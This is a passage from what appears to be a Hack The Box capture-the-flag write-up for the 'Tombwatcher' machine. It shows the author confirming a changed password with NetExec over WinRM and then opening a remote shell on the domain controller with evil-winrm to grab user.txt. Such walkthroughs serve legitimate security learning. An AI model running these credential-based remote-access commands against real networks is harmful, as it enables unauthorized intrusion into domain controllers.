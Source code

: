 Confirming that we have changed the password for John using Netexec.

```bash
nxc winrm tombwatcher.htb -u 'john' -p 'aashwin7!'
```

![image.png](/assets/images/Tombwatcher_HTB/image%2019.png)

So now we have successfully owned John, marking John as owned.

### John(psremote) → DC01

![image.png](/assets/images/Tombwatcher_HTB/image%2020.png)

John can psremote (winrm) into the DC, so we used evil-winrm to login and grab our user.txt

```bash
evil-winrm -i 10.129.232.198 -u 'john' -p 'aashwin7!'
```

![image.png](/assets/images/Tombwatcher_HTB/image%2021.png)
